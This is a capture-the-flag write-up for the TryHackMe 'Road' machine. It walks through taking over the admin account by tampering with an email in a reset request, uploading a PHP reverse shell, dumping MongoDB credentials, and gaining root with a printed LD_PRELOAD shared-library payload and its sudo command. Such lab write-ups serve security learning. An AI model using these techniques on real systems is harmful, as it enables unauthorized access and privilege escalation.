# [Tryhackme:Road](https://tryhackme.com/room/road)
## Enumeration
Start simple Nmap scan to discover open ports .
```bash
sudo nmap -T4 -Pn <target>
```
**Result**



There only 2 open ports SSH and HTTP, inherently this is normal CTF open ports. So I will not do more enumeration on them. 

Anyways, discovering this website that's run on `80/tcp`, I will do directory fuzzing 
```bash
gobuster dir -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt -u "http://10.113.133.218" -t 64
```
**result**



`/v2` directory have `/v2/admin` directory that is have login page, I registered as new user



and use this username to login. Inside profile page we found admin's email. 



We also have reset password page `http://10.113.133.218/v2/ResetUser.php`. Available admin email and reset password page ? hmmm.




inside this page we can change our password but we can not change our email. Intercepting reset password request with Burpsuite 



We can modify email of reset password request! 



modify it with admin's Gmail and check if it work.



It worked ! 

Now change profile photo feature is working now we can change it and server will store it inside 



this directory. 


To test this I will upload any photo from my device.



request the photo from the URL 



Now I will try to check if there is any filters because I will try to upload arbitrary file.



Test if the file get filtered or not 



I could request it normally. So I will try to upload reverse shell and request it. I will use [pentest monkey PHP reverse shell](https://github.com/pentestmonkey/php-reverse-shell), Doing like previous request to upload and request the file.

## Initial access
 
- Setting listener to catch the shell.
```bash
nc -lnvp 4444
```

- Request the shell



- Got access



## User flag



## Enumeration again

List open ports that is listen on our target machine. 



We found MongoDB service runs on the default port of MongoDB. We can go inside our mongo using this command.

```bash
# Enter mongo shell
mongo
# show all db
show dbs
```

Inside `backup` database I found table called `user` which have data about users and it also have valid credential for user called `webdevelober` which is higher privilege user then our current one.

```
# get inside db
use backup
# list tables inside db
show collections
# dump user db's content
db.user.find()
```



## Privilege escalation

Login via **SSH** with this credentials



### Enumeration
Target machine have `LD_PRELOAD` on, which allow use to load custom library before the system library.



We can exploit it by the following steps, first create payload
```bash
# Paylaod
cat << "EOF" > exploit.c
#include <stdio.h>
#include <sys/types.h>
#include <stdlib.h>
void _init() {
unsetenv("LD_PRELOAD");
setgid(0);
setuid(0);
system("/bin/sh");
}
EOF
# compile
gcc -fPIC -nostartfiles -share -o exploit.so exploit.c
# add LD_PRELOAD
export LD_PRELOAD=./exploit.so
# run it
sudo LD_PRELOAD=./exploit /usr/bin/sky_backup_utility
```



and we got root shell! 

